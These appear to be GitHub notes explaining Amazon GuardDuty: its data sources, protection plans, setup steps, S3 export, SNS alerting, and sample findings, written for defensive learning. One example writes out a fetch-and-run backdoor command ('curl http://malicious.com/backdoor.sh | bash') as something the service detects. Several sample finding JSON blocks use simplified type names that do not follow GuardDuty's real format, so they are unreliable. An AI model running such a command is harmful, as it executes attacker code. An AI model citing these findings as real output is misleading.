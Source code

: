 # **Amazon GuardDuty – Threat Detection for AWS**
## Overview
Amazon GuardDuty is a **managed threat detection service** that helps protect your AWS accounts, workloads, and data. 
- **_Technologies Behind GuardDuty_**
  - **Machine Learning (ML)** to identify anomalies.
  - **Threat Intelligence Feeds** from AWS and partners (e.g., malicious IPs/domains, malware hashes).
  - **Contextual Analysis** for understanding threats in real time.

- **Amazon GuardDuty** is a managed threat detection service that continuously monitors for malicious activity and unauthorized behavior. It uses multiple foundational data sources:
  - AWS CloudTrail management events
  - Amazon VPC Flow Logs
  - Amazon Route 53 DNS query logs

- GuardDuty can also monitor additional optional data sources (called protection types) such as:
  - Amazon S3 data events
  - EKS audit logs
  - RDS login activity
  - Lambda network logs
  - Runtime Monitoring (for EC2, ECS, EKS)
  - EBS volumes (Malware scan)

- **Easy to Use**
  - **One-click activation** — No need for complex setup or agents.
  - **Out-of-the-box functionality** — Immediate insights without extra configurations.

- **How It Works**
  - GuardDuty continuously analyzes **tens of billions of events per minute** from AWS data sources to:
    - Detect **suspicious behavior** or unauthorized activities.
    - Identify and **prioritize threats** based on context and risk.
    - Provide **security context** for faster incident response.

- **Integrated and Scalable**
  - Works across **EC2**, **ECS**, **EKS**, **AWS Lambda**, **RDS**, **Aurora**, and **S3**.
  - Seamless integration with **AWS services** like AWS Security Hub, Amazon EventBridge, and AWS Lambda for **automated remediation**.
  - Scales effortlessly across all your AWS resources.

- Benefits
  - **Continuous monitoring** across AWS accounts and regions.
  - **No agent required** – Fully managed.
  - **Fast threat response** with automated alerts and integrations.
  - **Improves security posture** with proactive threat detection.

---

## **Features**
Amazon GuardDuty is a smart threat detection service designed to monitor and protect your AWS environment. It uses machine learning, threat intelligence, and behavior analysis to identify security threats in real time.

### What GuardDuty Can Detect

| 🧨 Threat Type                          | 🔍 Description                                                                      |
| --------------------------------------- | ----------------------------------------------------------------------------------- |
| **Compromised Credentials**             | Detects if AWS access keys are stolen and misused.                                  |
| **Data Exfiltration**                   | Flags data theft or destruction—potential signs of ransomware.                      |
| **Unusual DB Access**                   | Anomalous login patterns in Aurora & RDS databases.                                 |
| **Unauthorized Cryptomining**           | Identifies mining operations on EC2 & container instances.                          |
| **Malware Presence**                    | Detects known malware in EC2, containers, and S3 file uploads.                      |
| **Suspicious OS/Network/File Behavior** | Identifies OS-level intrusions on EKS, ECS (Fargate), EC2, and container workloads. |

<details>
 <summary>Click to view Features with Example</summary>

### 1. **Continuous Monitoring of Foundational Data Sources**
GuardDuty automatically monitors three main AWS data sources:

1. **AWS CloudTrail management events** – Tracks user activities like API calls.
2. **VPC Flow Logs** – Logs traffic going in and out of your EC2 instances.
3. **DNS Logs** – Tracks domain name lookups made by your resources.

<details>
 <summary>Click to view Example</summary>

### Example:

Suppose an EC2 instance starts making DNS queries to a known malware domain (e.g., `bad-malware-site.ru`). GuardDuty detects this through DNS logs and alerts you with a finding like:

> *"EC2 instance is communicating with a known command-and-control domain."*

📘 No manual setup is required—just enable GuardDuty and it starts monitoring.

</details>

---

### 2. **Extended Threat Detection (Multi-Stage Attacks)**
Detects **attack chains** that span multiple logs, AWS services, or over time. It correlates events that might seem harmless individually but are dangerous when combined.

<details>
 <summary>Click to view Example</summary>

### Example:

1. An attacker logs into your account using a compromised credential (CloudTrail log).
2. Then launches a new EC2 instance (CloudTrail).
3. That EC2 instance starts scanning internal IPs (VPC Flow Logs).

GuardDuty pieces these events together and creates a single **attack sequence finding**, like:

> *"Suspicious EC2 activity: Unauthorized access followed by lateral network scanning."*

📘 Extended Threat Detection is **enabled by default** and has **no extra cost**.

</details>

---

### 3. **Use-Case Focused Protection Plans**
GuardDuty offers optional "add-on" features for **specific AWS services** to enhance security.

### **S3 Protection**
Analyzes access patterns and newly uploaded files in your Amazon S3 buckets.

<details>
 <summary>Click to view Example</summary>

#### Example:

If someone downloads hundreds of files in a short time from an S3 bucket, GuardDuty might flag:

> *"Unusual data download from S3 bucket, possible exfiltration."*

📘 Enable S3 protection to monitor **data access and potential leaks**.

</details>

---

### **EKS Protection**
Monitors Kubernetes API (audit logs) in Amazon EKS for suspicious behavior.

<details>
 <summary>Click to view Example</summary>

#### Example:

A user tries to escalate privileges using `kubectl create clusterrolebinding`:

> *"Kubernetes privilege escalation attempt in EKS cluster."*

📘 Helps detect attacks like misconfigured roles or unauthorized deployments.

</details>

---

### **Runtime Monitoring**
Watches system-level activity (like file or process operations) in EC2, ECS (Fargate), and EKS.

<details>
 <summary>Click to view Example</summary>

#### Example:

GuardDuty sees a suspicious shell command like:

```bash
curl http://malicious.com/backdoor.sh | bash
```

> *"Suspicious command execution detected in EC2."*

📘 Useful for detecting malware, reverse shells, or script-based attacks.

</details>

---

### **Malware Protection for EC2 (EBS Scanning)**

Scans EBS volumes for known malware signatures.

<details>
 <summary>Click to view Example</summary>

#### Example:

After a breach, you run a malware scan on EC2 and GuardDuty detects:

> *"Malware signature matched in EBS volume attached to EC2 instance."*

📘 Available as **on-demand or scheduled** scans.

</details>

---

### 🧪 **Malware Protection for S3**

Scans newly uploaded S3 objects for malware.

<details>
 <summary>Click to view Example</summary>

#### Example:

Someone uploads an infected ZIP file to an S3 bucket:

> *"Malware detected in newly uploaded file to S3."*

📘 You can use this feature **independently** without enabling full GuardDuty.

</details>

---

### **RDS Protection**

Analyzes **login attempts** to Aurora and RDS databases for unusual behavior.

<details>
 <summary>Click to view Example</summary>

#### Example:

Multiple failed login attempts from an IP in another country:

> *"Brute-force login attempt on RDS instance."*

📘 Protects your database from unauthorized access.

</details>


#### **GuardDuty RDS Protection – Supported MySQL Versions**
- Supported for **Amazon Aurora MySQL**:
  - **Aurora MySQL version 2.10.2 or later**
  - **Aurora MySQL version 3.02.1 or later**

> So if you're using **Aurora MySQL** (not regular RDS for MySQL), and you're on one of the above versions, **GuardDuty RDS Protection** **will monitor login activity** and generate findings based on anomalies.

#### **Not Supported for RDS for MySQL (standard RDS)**

GuardDuty **does not currently support**:

* Regular **Amazon RDS for MySQL**
* Self-managed MySQL (on EC2, for example)

The documentation specifically lists **Aurora MySQL**, not RDS MySQL, in the supported engines.

#### What GuardDuty Monitors for Aurora MySQL

Once enabled:

* It **automatically collects RDS login activity** (successful, failed, and incomplete logins).
* It uses this to detect **suspicious login patterns**, such as:

  * Brute force attacks
  * Unusual source IPs or geolocations
  * Unexpected login times or credentials

### Learning Period

When you first enable RDS Protection or create a new DB instance:

* GuardDuty undergoes a **learning period (up to 2 weeks)** to baseline what “normal” looks like.
* During this time, **no findings will be generated**, even if login activity occurs.

### Summary

| Engine                                           | Supported by GuardDuty RDS Protection? | Notes                                              |
| ------------------------------------------------ | -------------------------------------- | -------------------------------------------------- |
| **Aurora MySQL 2.10.2+ / 3.02.1+**               | ✅ Yes                                  | Must be one of the listed versions                 |
| **RDS for MySQL**                                | ❌ No                                   | Not currently supported                            |
| **Aurora PostgreSQL (10.23+ to 16.1+)**          | ✅ Yes                                  | Fully supported                                    |
| **RDS for PostgreSQL**                           | ✅ Yes                                  | From versions 11.17+, 12.12+, 13.8+, 14.5+, 15, 16 |
| **Aurora PostgreSQL Limitless (16.4-limitless)** | ✅ Yes                                  | Explicitly supported                               |

If you're using Aurora MySQL on a supported version, GuardDuty RDS Protection will monitor and alert on login threats. 

---

### **Lambda Protection**

Monitors **network activity** of Lambda functions, especially when running in VPC.

<details>
 <summary>Click to view Example</summary>

#### Example:

A Lambda function connects to a known crypto mining domain:

> *"AWS Lambda making outbound calls to known mining pool IP."*

📘 Helps detect misuse of serverless compute for malicious purposes.

</details>

---

### 4. **Multi-Account Management**
Centralized monitoring of multiple AWS accounts using:

* **AWS Organizations** (recommended)
* **Legacy invitation-based method**

<details>
 <summary>Click to view Example</summary>

### Example:

You are a security admin for 10 AWS accounts. Set up GuardDuty in your org master account to monitor all others from one place.

📘 Centralized view = simplified management and cost tracking.

</details>

---

### 5. **Security Findings and Sample Tests**
GuardDuty generates **detailed findings** when it detects a threat. Each finding includes:

* Threat type and severity
* Affected resources
* Recommended action

<details>
 <summary>Click to view Example</summary>

### Example:

> *"Recon\:EC2/PortProbeUnprotectedPort – An external IP is probing your EC2 port 22 (SSH).”*

You can also:

* Use **sample findings** for testing.
* Use **tester scripts** to simulate scenarios.

📘 Helps teams learn how to respond to real-world alerts.

</details>

---

### 6. **Managing and Visualizing Findings**

* View results in the **GuardDuty console dashboard**
* Query findings using:

  * **AWS CLI**
  * **AWS SDK**
  * **AWS Security Hub**

<details>
 <summary>Click to view Example</summary>

### Example:

Security team pulls high-severity findings across accounts:

```bash
aws guardduty list-findings --severity-criteria "HIGH"
```

📘 Enables analysis, alerting, and custom dashboards (e.g., using CloudWatch or Grafana).

</details>

---

### 7. **Integration with AWS Security Services**

### Integrated Services:

| Service                | Benefit                                                |
| ---------------------- | ------------------------------------------------------ |
| **AWS Security Hub**   | Central view of findings across AWS security services  |
| **Amazon Detective**   | Root cause analysis with visual timeline and graphs    |
| **Amazon EventBridge** | Automated response via Lambda, SNS, or Systems Manager |

<details>
 <summary>Click to view Example</summary>

### Example:

* When GuardDuty finds malware on EC2:

  * Security Hub prioritizes it.
  * Detective shows related actions (login, IP address).
  * EventBridge triggers Lambda to isolate the instance.

📘 Example Rule:

```json
{
  "source": ["aws.guardduty"],
  "detail-type": ["GuardDuty Finding"]
}
```

</details>

---

### 8. **PCI DSS Compliance**

* GuardDuty is **Level 1 PCI DSS certified**.
* Safe to use in environments where **credit card data** is processed or stored.

📘 You can request the AWS PCI Compliance package from the AWS Artifact console.

---

### 9. **Testing and Validation**

* Generate **sample findings** in the console.
* Use **testing scripts** to simulate threats and test responses.

<details>
 <summary>Click to view Example</summary>

### Example:

Generate test finding:

```bash
aws guardduty create-sample-findings --detector-id <your-detector-id>
```

</details>

</details>

---

## Pricing & Trial

* **Pay-as-you-go** – No upfront costs or commitments.
* **30-day free trial** – Try GuardDuty risk-free.

---

## Amazon GuardDuty Hands-On Documentation
### Key Notes:

* GuardDuty is a **Regional service** — it must be enabled in every AWS Region you wish to monitor.
* It is recommended to enable GuardDuty in **all supported Regions**, including those you don’t actively use, for broader detection.
* A 30-day free trial is available for newly enabled protection features in each Region.
* GuardDuty automatically creates service-linked IAM roles such as:

  * `AWSServiceRoleForAmazonGuardDuty`
  * `AWSServiceRoleForAmazonGuardDutyMalwareProtection`

<details>
  <summary>Click to view step by step hands on as per the documentation</summary>

---

## Step 1: Enable Amazon GuardDuty

### Standalone Account

1. Open GuardDuty console: [https://console.aws.amazon.com/guardduty](https://console.aws.amazon.com/guardduty)
2. Choose **Amazon GuardDuty - All features**.
3. Click **Get Started** > **Enable GuardDuty**.

### Multi-Account via AWS Organizations

* Designate an administrator account.
* Add and enable member accounts.

---

## Step 2: Generate Sample Findings

1. In the GuardDuty console, go to **Settings**.
2. Under **Sample findings**, choose **Generate sample findings**.
3. View results in:

   * **Summary** dashboard
   * **Findings** page (Sample findings will be prefixed with `[SAMPLE]`).
4. Click any finding to:

   * View JSON structure
   * Examine affected resources
   * Apply filters

To archive:

* Select all findings > **Actions** > **Archive**.
* Switch between **Current** and **Archived** view as needed.

---

## Step 3: Export Findings to Amazon S3

Exporting allows you to retain findings beyond the default 90-day retention using encrypted storage in Amazon S3.

### Step-by-Step:

#### 1. Create or Choose a KMS Key

* Go to AWS KMS Console: [https://console.aws.amazon.com/kms](https://console.aws.amazon.com/kms)
* Select or create a symmetric key
* Copy the **Key ARN**
* Edit the key policy to allow GuardDuty access:

```json
{
  "Sid": "AllowGuardDutyKey",
  "Effect": "Allow",
  "Principal": {
    "Service": "guardduty.amazonaws.com"
  },
  "Action": "kms:GenerateDataKey",
  "Resource": "KMS key ARN",
  "Condition": {
    "StringEquals": {
      "aws:SourceAccount": "123456789012",
      "aws:SourceArn": "arn:aws:guardduty:Region:123456789012:detector/SourceDetectorID"
    }
  }
}
```

#### 2. Create or Edit S3 Bucket Policy

* Go to Amazon S3 > Your Bucket > **Permissions** > **Bucket Policy**
* Add policy to allow GuardDuty access (replace placeholders):

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Allow PutObject",
      "Effect": "Allow",
      "Principal": {
        "Service": "guardduty.amazonaws.com"
      },
      "Action": "s3:PutObject",
      "Resource": "bucket-arn/path/*",
      "Condition": {
        "StringEquals": {
          "aws:SourceAccount": "123456789012",
          "aws:SourceArn": "arn:aws:guardduty:region:123456789012:detector/detectorID"
        }
      }
    }
  ]
}
```

#### 3. Configure in GuardDuty

* Console > GuardDuty > Settings
* Choose **Configure S3 Export**
* Enter:

  * S3 Bucket ARN
  * KMS Key ARN
* Click **Save**

---

## Step 4: Configure SNS Alert for GuardDuty Findings

### Create SNS Topic

1. Open [Amazon SNS Console](https://console.aws.amazon.com/sns)
2. Go to **Topics** > **Create Topic** > Type: **Standard**
3. Name: `GuardDuty`
4. Click **Create Topic**
5. Create Subscription:

   * Protocol: **Email**
   * Enter your email
   * Confirm via email

### Create EventBridge Rule

1. Open [Amazon EventBridge Console](https://console.aws.amazon.com/events)
2. Go to **Rules** > **Create Rule**
3. Name your rule
4. Source: **AWS Services** > Service: **GuardDuty**
5. Event Type: **GuardDuty Finding**
6. Target: **SNS topic** > Select `GuardDuty`

#### Format Message with Input Transformer

**Input Path:**

```json
{
  "severity": "$.detail.severity",
  "Finding_ID": "$.detail.id",
  "Finding_Type": "$.detail.type",
  "region": "$.region",
  "Finding_description": "$.detail.description"
}
```

**Template:**

```text
You have a severity severity GuardDuty finding type Finding_Type in the Region region.

Description:
Finding_description

See more: https://console.aws.amazon.com/guardduty/home?region=region#/findings?search=id%3DFinding_ID
```

---

## Next Steps

### Customize GuardDuty Behavior

* **Finding Filters:** Create custom filters to group similar findings (e.g., by instance ID or account ID).
* **Suppression Rules:** Automatically archive expected behavior findings.
* **Trusted IP Lists & Threat Lists:** Allowlist or explicitly monitor known IPs.

### Stay Updated

* Use **Security Hub** for centralized monitoring.
* Use **Amazon Detective** for deeper investigations.
* Use **AWS Config** to track compliance changes.

</details>

---

## ✅ GuardDuty Protection Plan Comparison Table

| Protection Plan              | Data Source / Signal                        | Auto-Enabled with GuardDuty?   | Detects                   | Example Threats                                        |
| ---------------------------- | ------------------------------------------- | ------------------------------ | ------------------------- | ------------------------------------------------------ |
| **S3 Protection**            | Amazon S3 Data Events (via CloudTrail)      | ❌ Optional                     | Data-level anomalies      | Data exfiltration, ransomware deletion, access via Tor |
| **EKS Protection**           | Kubernetes Audit Logs                       | ❌ Optional                     | API-level anomalies       | Privilege escalation, unusual API calls                |
| **RDS Protection**           | Login activity to RDS/Aurora DBs            | ❌ Optional                     | Access anomalies          | Brute-force login attempts, unusual DB client IPs      |
| **Lambda Protection**        | VPC Flow Logs (for Lambda functions in VPC) | ❌ Optional                     | Network threats           | Lambda reaching malware hosts, crypto mining           |
| **Runtime Monitoring**       | OS-level events from EC2, ECS, EKS          | ❌ Optional                     | Process and system events | Reverse shells, unauthorized tools                     |
| **Malware Protection (EC2)** | EBS Volume Snapshots (agentless scan)       | ✅ Auto-enabled in most Regions | Malware files             | Detected malware in EBS volumes                        |
| **Malware Protection (S3)**  | Newly uploaded S3 objects                   | ❌ Optional + Independent       | Malware files             | Malicious uploads to public/private buckets            |

---

<details>
  <summary>Sample GuardDuty Finding Outputs</summary>

## Sample GuardDuty Finding Outputs
![image](https://github.com/user-attachments/assets/f8be85a7-3995-4254-864f-2b586e94670d)

### 🪣 S3 Protection Finding

**Finding Type:** `S3.Bucket-Exfiltration.Unusual`
**Severity:** Medium

```json
{
  "resource": {
    "resourceType": "S3Bucket",
    "instanceDetails": {
      "bucketName": "my-finance-records"
    }
  },
  "service": {
    "action": {
      "actionType": "AWS_API_CALL",
      "apiCallDetails": {
        "api": "GetObject",
        "callerType": "Remote IP",
        "remoteIpDetails": {
          "ipAddressV4": "203.0.113.45",
          "country": "Russia"
        }
      }
    },
    "additionalInfo": {
      "anomaly": "Large volume of access from unfamiliar location"
    }
  }
}
```

---

### ☸️ EKS Protection Finding

**Finding Type:** `EKS.AccessKubernetesAPI.AnomalousBehavior`
**Severity:** High

```json
{
  "resource": {
    "resourceType": "KubernetesCluster",
    "instanceDetails": {
      "clusterName": "prod-eks-cluster"
    }
  },
  "service": {
    "action": {
      "apiCallDetails": {
        "api": "createSecret",
        "username": "system:anonymous"
      }
    },
    "additionalInfo": {
      "kubernetesUserAgent": "kubectl/v1.21.1",
      "anomaly": "Unauthorized user attempting to create secret"
    }
  }
}
```

---

### 🛢️ RDS Protection Finding

**Finding Type:** `RDS.LoginAnomaly.Behavioral`
**Severity:** Medium

```json
{
  "resource": {
    "resourceType": "RDSInstance",
    "instanceDetails": {
      "dbInstanceIdentifier": "customer-db-prod"
    }
  },
  "service": {
    "action": {
      "loginDetails": {
        "username": "admin",
        "sourceIp": "45.10.10.12",
        "location": "Unknown"
      }
    },
    "additionalInfo": {
      "anomaly": "Login from a previously unseen location and client"
    }
  }
}
```

---

### ⚡ Lambda Protection Finding

**Finding Type:** `Lambda.FunctionCommunication.MaliciousDomain`
**Severity:** High

```json
{
  "resource": {
    "resourceType": "LambdaFunction",
    "instanceDetails": {
      "functionName": "transaction-handler"
    }
  },
  "service": {
    "action": {
      "networkConnectionAction": {
        "remoteDomain": "cryptominer-malware.com",
        "protocol": "HTTPS"
      }
    },
    "additionalInfo": {
      "threatIntelIndicators": [
        {
          "type": "MaliciousDomain",
          "value": "cryptominer-malware.com"
        }
      ]
    }
  }
}
```

</details>

---

## 📌 Summary

* Once you enable protection plans for **S3, EKS, RDS, and Lambda**, GuardDuty will automatically begin **monitoring all relevant resources** using backend telemetry.
* The findings generated are **context-aware, JSON-formatted**, and **include resource identifiers**, event types, severities, and helpful remediation links.
* You can use EventBridge, Security Hub, or even Lambda to **automate responses** to these findings.

With Amazon GuardDuty:

* You get intelligent threat detection across AWS resources.
* You can automate response workflows.
* You can retain findings securely and gain historical insights.
* You can continuously adapt with filters, suppression rules, and IP lists.


